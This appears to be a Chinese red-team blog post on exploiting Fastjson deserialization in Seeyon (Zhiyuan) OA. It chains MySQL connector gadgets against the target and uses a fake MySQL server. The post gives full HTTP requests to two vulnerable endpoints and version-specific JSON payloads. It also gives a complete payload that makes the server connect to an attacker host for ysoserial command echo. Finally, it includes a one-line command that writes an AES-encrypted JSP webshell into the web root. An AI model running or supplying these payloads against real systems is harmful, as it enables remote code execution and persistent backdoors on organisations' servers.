 ```yaml
---
layout: post
title: SeeyonFastjson利用链

---
```


## 0x01  前言

前段时间刚结束一场hvv，现场遇到了这样的情况，存在seeyon的fastjson接口但是利用链不行。

后来请教wal613师傅，换了mysql connector的利用链，前提是seeyon的数据库用的是Mysql

## 0x02  接口1

```
POST /seeyon/main.do?method=changeLocale HTTP/1.1
Host: 
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.69 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: https://x.x.x.x/seeyon/main.do
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: JSESSIONID=9845FB928E346136D2356099A6862683; loginPageURL=
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 71

_json_params={"@type":"java.net.Inet4Address","val":"k6suli.dnslog.cn"}
```

dnslog有回显，但是看了网上执行命令的方法，都是一直失败

参考这篇文章，http://www.hackdig.com/08/hack-439516.htm

https://github.com/fnmsd/MySQL_Fake_Server

![](https://gitee.com/a4m1n/tuchuang/raw/master/pic/20211105151149.png)

vps上执行 python server.py，yso看了下这篇文章中师傅改的https://www.anquanke.com/post/id/203086，最后为了打回显，使用了wal613师傅改的yso

![](https://gitee.com/a4m1n/tuchuang/raw/master/pic/20211105151234.png)

本地搭建安装的时候有这么个东西，就是后文利用链里面需要的mysql-connector

![](https://gitee.com/a4m1n/tuchuang/raw/master/pic/20211105142552.png)

这个要装对应的jdbc驱动，比如mysql-connector-java-5.1.38-bin.jar

## 0x03利用链

### Mysql connector 5.1x

```json
{"@type":"java.lang.AutoCloseable","@type":"com.mysql.jdbc.JDBC4Connection","hostToConn  ectTo":"mysql.host","portToConnectTo":3306,"info":{"user":”user","password":”pass","statementInterceptors":"com.mysql.jdbc.interceptors.ServerStatusDiffInterceptor","autoDese  rialize":"true","NUM_HOSTS": "1"},"databaseToConnectTo":”dbname" , "url":""}
```

### Mysql connector 6.0.2 or 6.0.3

```json
{"@type": "java.lang.AutoCloseable" ,"@type":  "com.mysql.cj.jdbc.ha.LoadBalancedMySQLConnection" ,"proxy":{"connectionString":{"url":  "jdbc:mysql://localhost:3306/foo?allowLoadLocalInfile=true"}}}
```

###  Mysql connector 6.x or < 8.0.20

```json
{"@type":"java.lang.AutoCloseable","@type":"com.mysql.cj.jdbc.ha.ReplicationMySQLConnecti  on","proxy":{"@type":"com.mysql.cj.jdbc.ha.LoadBalancedConnectionProxy","connectionUrl":{ "@typ e":"com.mysql.cj.conf.url.ReplicationConnectionUrl" , "masters": [{"host":"mysql.host"}],  "slaves":[],  "properties":{"host":"mysql.host","user":"user","dbname":"dbname","password":"pass","quer  yInterceptors":"com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor","autoDeserial  ize":"true"}}}}
```

## 0x04 实战场景中的回显

![](https://gitee.com/a4m1n/tuchuang/raw/master/pic/20211105152116.png)

服务端回显CommonsBeanutils1Tomcat89Echo

![](https://gitee.com/a4m1n/tuchuang/raw/master/pic/20211105152204.png)

![](https://gitee.com/a4m1n/tuchuang/raw/master/pic/20211105152358.png)

完整Payload

```
_json_params={"@type":"java.lang.AutoCloseable","@type":"com.mysql.jdbc.JDBC4Connection","hostToConnectTo":"x.x.x.x","portToConnectTo":3306,"info":{"user":"yso_CommonsBeanutils1Tomcat89Echo_data","password":"pass","statementInterceptors":"com.mysql.jdbc.interceptors.ServerStatusDiffInterceptor","autoDeserialize":"true","NUM_HOSTS": "1"},"databaseToConnectTo":"test","url":"jdbc:mysql://x.x.x.x:3306/test?user=yso_CommonsBeanutils1Tomcat89Echo_data&autoDeserialize=true&statementInterceptors=com.mysql.jdbc.interceptors.ServerStatusDiffInterceptor"}
```

payload url编码一下

![](https://gitee.com/a4m1n/tuchuang/raw/master/pic/20211105161642.png)

直接写webshell，webshell路径自行替换

echo ^<%@page import="java.util.*,javax.crypto.*,javax.crypto.spec.*"%^>^<%!class U extends ClassLoader{U(ClassLoader c){super(c);}public Class g(byte []b){return super.defineClass(b,0,b.length);}}%^>^<%if (request.getMethod().equals("POST")){String k="e45e329feb5d925b";session.putValue("u",k);Cipher c=Cipher.getInstance("AES");c.init(2,new SecretKeySpec(k.getBytes(),"AES"));new U(this.getClass().getClassLoader()).g(c.doFinal(new sun.misc.BASE64Decoder().decodeBuffer(request.getReader().readLine()))).newInstance().equals(pageContext);}%^> > D:\UFSeeyon\A8\Enterprise\ApacheJetspeed\webapps\ROOT\2.jsp

## 0x05接口２

```
POST /seeyon/m3/loginController.do?method=transLogout HTTP/1.1
Host: x.x.x.x
Content-Length: 494
Cache-Control: max-age=0Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
data: ls
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) 
Chrome/87.0.4280.88 Safari/537.36
Accept: 
text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.
8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflateAccept-Language: zh-CN,zh;q=0.9Cookie: 
JSESSIONID=26FF8158707BB0896A3ACD66EB92DD41; loginPageURL=Connection: close
statisticId={"@type":"java.lang.AutoCloseable","@type":"com.mysql.jdbc.JDBC4Connection","hostTo
ConnectTo":"x.x.x.x","portToConnectTo":3306,"info":{"user":"test","password":"pass","state
mentInterceptors":"com.mysql.jdbc.interceptors.ServerStatusDiffInterceptor","autoDeserialize":"
true","NUM_HOSTS":"1"},"databaseToConnectTo":"test","url":"jdbc:mysql://x.x.x.x:3306/test?
user=test%26autoDeserialize=true%26statementInterceptors=com.mysql.jdbc.interceptors.ServerStat
usDiffInterceptor"}
```

利用也是一样的

## 0x06 安装过程

![](https://gitee.com/a4m1n/tuchuang/raw/master/pic/20211105161408.png)

mysql账号密码配置

![](https://gitee.com/a4m1n/tuchuang/raw/master/pic/20211105161503.png)

然后点start.bat启动

![](https://gitee.com/a4m1n/tuchuang/raw/master/pic/20211105162240.png)

mssql数据库的话需要选

Chinese_PRC_90_CI_AI；

创建数据库名，[协同数据库名] 改成seeyon，或者自定义都可

ALTER DATABASE [协同数据库名] SET READ_COMMITTED_SNAPSHOT ON;

select is_read_committed_snapshot_on from sys.databases where name='协同数据 库名';



## 参考资料

https://i.blackhat.com/USA21/Wednesday-Handouts/US-21-Xing-How-I-Used-a-JSON.pdf

http://www.hackdig.com/08/hack-439516.htm

https://www.anquanke.com/post/id/203086

致远OA fastjson mysql connector 利用链  wal613

